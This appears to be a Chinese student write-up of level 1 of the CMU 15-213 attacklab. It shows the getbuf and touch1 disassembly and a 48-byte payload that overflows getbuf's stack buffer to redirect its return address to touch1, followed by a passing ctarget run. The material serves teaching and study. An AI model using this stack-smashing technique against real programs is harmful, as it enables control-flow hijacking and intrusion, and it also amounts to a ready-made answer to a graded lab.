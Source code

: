 ```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
```

函数 `getbuf` 在栈上分配了 40 字节的空间，作为缓冲区（Buffer），调用函数 `Gets` 获取字符串并存储于栈上。函数 `getbuf` 存在缓冲区溢出漏洞（Buffer Overflow）。

函数 `getbuf` 的栈帧（stack frame）如下表所示：
| item | size | statements |
| --- | --- | --- |
| Return Address | 8B | 返回地址 |
| Buffer | 40B | 缓冲区 |

因此，我们至少需要输入 48B 的字符串，并且使用 touch1 的内存地址覆盖函数 `getbuf` 的 Return Address。运行以下指令，获取 touch1 的汇编代码：

```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```

我们得到函数 `touch1` 的首地址为：**0x4017c0**（8 字节）。因此，这一关需要输入 40 个任意字符+8B 的 `touch1` 首地址（小端顺序），一个可行的字节序列为：

```
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 c0 17 40 00 00 00 00 00
```

通过 hex2raw 程序生成对应的字符串：

```
./hex2raw < ctarget.l1.txt > attack.l1.txt
```

运行以下指令进行测试：

```
./ctarget -i attack.l1.txt -q
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 0
```
